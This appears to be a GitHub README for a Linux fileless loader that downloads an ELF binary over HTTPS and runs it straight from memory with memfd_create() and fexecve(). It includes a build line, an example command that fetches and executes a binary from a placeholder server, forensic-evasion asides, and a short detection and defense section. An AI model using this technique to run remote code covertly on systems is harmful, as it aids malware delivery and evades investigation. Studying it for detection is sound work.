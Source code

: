 # nodiskloader

This project demonstrates how to download and execute an ELF binary directly from memory using Linux syscalls `memfd_create()` and `fexecve()`, without touching the filesystem at all.

> **Live article with full explanation and defense strategies:**
> 📖 [proxydom.hashnode.dev](https://proxydom.hashnode.dev)

---

## What It Does?

* Downloads an ELF binary via HTTPS using libcurl
* Loads it entirely into RAM
* Executes it using `fexecve()` from an anonymous file created with `memfd_create()`
* Leaves no trace on disk

This technique is commonly used in:
* Red team operations
* Fileless malware
* Memory-based sandbox evasion

---

## How It Works (short summary, the whole thing is in the blog)

1. `memfd_create("name", MFD_CLOEXEC)`
   → Creates an anonymous, memory-backed file descriptor

2. `curl_easy_perform()` with a custom write callback
   → Downloads the remote ELF into a memory buffer

3. `write()`
   → Copies the memory buffer into the anonymous memfd

4. `fexecve(memfd, argv, envp)`
   → Executes the binary directly from the memory descriptor

> `MFD_CLOEXEC` flag ensures the FD is closed automatically on exec, avoiding leaks. (We don't want to get forensic-ed, right?)

---

## Build the loader

```bash
gcc -o elfloader loader.c -lcurl
```

---

## Example Usage

```bash
./elfloader https://your-server.com/mybinary
```

You will see the ELF run directly from memory. No temp files, no extraction. Absolute cinema.

---

## Detection & Defense

Check the article for a complete guide on how to detect and mitigate this technique. In short:

* Monitor syscalls like `memfd_create`, `fexecve`
* Audit anonymous executable memory mappings
* Use EDR with behavioral detection
* Apply SELinux/AppArmor rules to block in-memory execution

More here: [proxydom.hashnode.dev](https://proxydom.hashnode.dev)

---

## TO-DO things (that i will forget to do lmao)

* Replace the download buffer with AES-encrypted payloads (or maybe i will use XOR. or maybe both)
* Load from internal memory instead of remote source (but loading from an URL is more useful, in my opinion)
* Create a multi-architecture loader stub (Windows 11 count your days i'm coming for you)
* Use ephemeral memory for download buffer (this means the memory used to temporarily store the downloaded binary is not meant to be persistent or reused— it exists just long enough to be written to the in-memory file descriptor, and then it's freed. Doin all this to reduce forensic footprint.)
---

## Author

**Me, proxydom** 
🔗 [proxydom.hashnode.dev](https://proxydom.hashnode.dev)

---

## Disclaimer

This project is for educational and research purposes only. Do not use it in unauthorized environments.

> Don't f*ck around and find out. Stay safe out here, and NEVER do this on computer that you have no permission to run scripts like this (unless you know how to not get traced) (jk pls don't do illegal things)

## Donations
If you liked this, i don't mind a little donation. A beer in italy is like 2 or 3 dollars, and you will make a college student very happy.
* BTC: bc1ql5zpzztllj0syetgnl93py894qdc2vvk8kz3y0
* Solana: 8uenP8kx3biorCJwWm3M1LqiPwsnEPeekFUhTXUAKRMF
* ETH: 0x0Ad6D832dD1e27CD0d349B1857c209DFe6C4C2F6
